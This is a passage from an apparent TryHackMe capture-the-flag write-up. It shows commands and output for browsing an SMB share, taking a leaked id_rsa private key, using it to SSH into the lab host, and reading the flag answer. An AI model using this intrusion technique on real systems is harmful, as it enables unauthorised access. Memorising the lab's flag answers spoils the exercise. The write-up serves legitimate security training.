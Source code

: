 `John Cactus`

5. What service has been configured to allow him to work from home?

`ssh`

6. Okay! Now we know this, what directory on the share should we look in?

```
smb: \> cd .ssh
smb: \.ssh\> ls
  .                                   D        0  Tue Apr 21 13:08:23 2020
  ..                                  D        0  Tue Apr 21 13:08:23 2020
  id_rsa                              A     1679  Tue Apr 21 13:08:23 2020
  id_rsa.pub                          N      396  Tue Apr 21 13:08:23 2020
  authorized_keys                     N        0  Tue Apr 21 13:08:23 2020

                12316808 blocks of size 1024. 7584028 blocks available
smb: \.ssh\>
```

`.ssh`

7. This directory contains authentication keys that allow a user to authenticate themselves on, and then access, a server. Which of these keys is most useful to us?

`id_rsa`

8. Download this file to your local machine, and change the permissions to "600" using "chmod 600 [file]".

Now, use the information you have already gathered to work out the username of the account. Then, use the service and key to log-in to the server.

What is the smb.txt flag?

```
kali@kali:~/CTFs/tryhackme/Network Services$ cat id_rsa.pub
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDb7OaL8zLZ5Z8OU3wZPSIQHaoyI8Yc3I/8/Y6faWgYTZbfNPexli0jxdAeTeGy2X3XACWcB4HFejbiNsMYLjy517gwWKPBvN865i8uIQ0Gqayq/KmBHpuBbR0yX/SpyfyvzR3VD16pg/D+WT8hLaNHSYm6FNYLsmVnWDSJDBhS179czftuoW55mw/OqzWVr5ln9cKeeuXlNV1lqCjBqF3ClzEBvN4JW8GS/riLTeHcXeMIMUTuIpr4XovN/VivIlLqTYy7lHuUh6L2RqAfw5+FSr4QZW1zHCMoS6FooTomq/03EGJCGcp80/fT0e04n+7+PxnmvZQkOwe1A1hUG6C/ cactus@polosmb
```

```
kali@kali:~/CTFs/tryhackme/Network Services$ ssh -i id_rsa cactus@10.10.78.132
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-96-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed Oct 21 22:57:37 UTC 2020

  System load:  0.0                Processes:           93
  Usage of /:   33.3% of 11.75GB   Users logged in:     0
  Memory usage: 17%                IP address for eth0: 10.10.78.132
  Swap usage:   0%


22 packages can be updated.
0 updates are security updates.


Last login: Tue Apr 21 11:19:15 2020 from 192.168.1.110
cactus@polosmb:~$ ls
smb.txt
cactus@polosmb:~$ cat smb.txt
THM{smb_is_fun_eh?}
cactus@polosmb:~$
```